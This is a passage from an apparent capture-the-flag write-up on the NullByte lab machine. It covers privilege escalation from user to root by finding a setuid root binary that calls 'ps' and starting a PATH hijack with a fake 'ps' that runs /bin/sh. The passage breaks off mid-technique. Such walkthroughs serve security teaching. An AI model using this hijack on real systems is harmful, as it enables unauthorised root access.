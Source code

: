 And it works.

### Privilege elevation

We got a shell as a user now we need privilege escalation to become root. After
trying `sudo su` we look at the `bash_history`:

    ramses@NullByte:~$ cat .bash_history
    sudo -s
    su eric
    exit
    ls
    clear
    cd /var/www
    cd backup/
    ls
    ./procwatch
    clear
    sudo -s
    cd /
    ls
    exit

Let see the `/var/www/backup/` folder:

    ramses@NullByte:/var/www/backup$ ls -l
    total 12
    -rwsr-xr-x 1 root root 4932 Aug  2 01:29 procwatch
    -rw-r--r-- 1 root root   28 Aug  2 01:36 readme.txt

Interesting, we read the readme.txt file:

    ramses@NullByte:/var/www/backup$ cat readme.txt
    I have to fix this mess...

We execute `procwatch`:

ramses@NullByte:/var/www/backup$ ./procwatch
  PID TTY          TIME CMD
 1785 pts/0    00:00:00 procwatch
 1786 pts/0    00:00:00 sh
 1787 pts/0    00:00:00 ps

Seems like a ps, probably executing the command itself. Moreover it is own by root
with the [suid](https://en.wikipedia.org/wiki/Setuid) set (the s in the `ls -l`),
meaning we execute this program with root privileges.

One classic vulnerability when a program executes another one is to use the PATH
environment variable to execute a command of our choice instead of the command
wanted by the program.

First of all we create a file with the command we want to execute and name it `ps`:

    :::text
    ramses@NullByte:/var/www/backup$ echo /bin/sh > ~/ps

We give the execution right to this file:
